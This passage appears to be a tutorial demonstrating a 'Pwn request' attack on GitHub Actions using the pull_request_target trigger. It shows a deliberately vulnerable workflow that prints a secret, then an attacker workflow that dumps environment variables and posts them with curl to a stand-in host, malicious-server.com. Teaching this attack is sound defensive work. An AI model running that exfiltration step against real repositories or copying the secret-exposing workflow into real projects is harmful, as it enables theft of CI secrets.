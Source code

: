 Now that we know what a Pwn request is, we will create a demo workflow to show how a workflow with elevated permissions can lead to compromising secrets.

### Step 1: Setting up the target repository

We will create a vulnerable workflow in the target repository. This workflow uses the `pull_request_target` trigger, which executes workflows in the context of the base repository.

```yaml
name: Vulnerable Workflow

on:
  pull_request_target:

jobs:
  build:
    runs-on: ubuntu-latest

    steps:
      - name: Checkout code
        uses: actions/checkout@v3
      
      - name: Print secrets
        env:
          SECRET_API_KEY: ${{ secrets.SECRET_API_KEY }}
        run: |
          echo "Using secret API key..."
          echo $SECRET_API_KEY
```

This code runs the workflow when a pull request is opened, and exposes the secret `SECRET_API_KEY` in a way that can be exploited.

### Step 2: Attackers introduces a malicious yml file that takes the secrets

The attacker forks the target repository and adds a malicious workflow file, which exploits the `pull_request_target` . It captures all environment variables, including sensitive secrets and sends them to the attacker's server via a `POST` request.

```yaml
name: Exploit Workflow

on:
  pull_request_target:

jobs:
  exploit:
    runs-on: ubuntu-latest

    steps:
      - name: Exploit - Exfiltrate Secrets
        run: |
          echo "Exfiltrating secrets..."
          env > /tmp/env_vars.txt
          curl -X POST -F "file=@/tmp/env_vars.txt" <http://malicious-server.com/upload>

```
